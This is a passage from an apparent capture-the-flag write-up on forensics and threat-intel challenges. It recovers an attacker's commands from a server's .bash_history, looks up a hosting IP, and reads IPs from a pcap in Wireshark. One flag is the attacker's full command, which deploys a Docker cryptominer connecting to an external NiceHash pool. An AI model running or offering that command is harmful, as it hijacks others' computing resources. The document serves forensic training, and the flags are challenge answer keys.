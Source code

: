 Now, we need to retrive the command used by attacker to make his profit in our `hacked` server. We can found history of commands used by user (unless user deleted it) in `/home/<user>/.bash_history`. The `.bash_history `file tracks a user’s command history and is an important artifact in Linux and Mac forensics. Suspects may attempt anti-forensic techniques to corrupt or remove `.bash_history` content. In our case, the attacker is not remove this important files. Therefore, we can track it's command.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2020-06-26-11-06-33.png)

As we see, the attacker try to run a crypto-miner in the compromised server.

Flag: `sudo docker service create --name miner alexellis2/cpu-opt:2018-1-2 ./cpuminer -a hodl -o stratum+tcp://hodl.eu.nicehash.com:3352 -u 35THoNiL8vNCESSq5ZPmZYTHT1GymWvUAx.autopsit.org`


# Threat Intel

### Challenge 1
![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/Bonus.png)

Now we already know the IP (45.62.224.162). Let's use online tools to investigate the hoster name and it's country. I'll this [website](https://check-host.net/) to define the hosting and the country.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2020-06-26-11-14-48.png)

Flag: `cloudatcost/canada`

# Network Forensic

### Challenge 1

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/1.png)

Run the pcap file in Wireshark and we can see the IP.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/2020-06-26-11-22-46.png)

Flag: `172.16.100.223`


### Challenge 2

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/2.png)

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/2020-06-26-11-22-46.png)

Flag: `172.16.100.1`


### Challenge 3
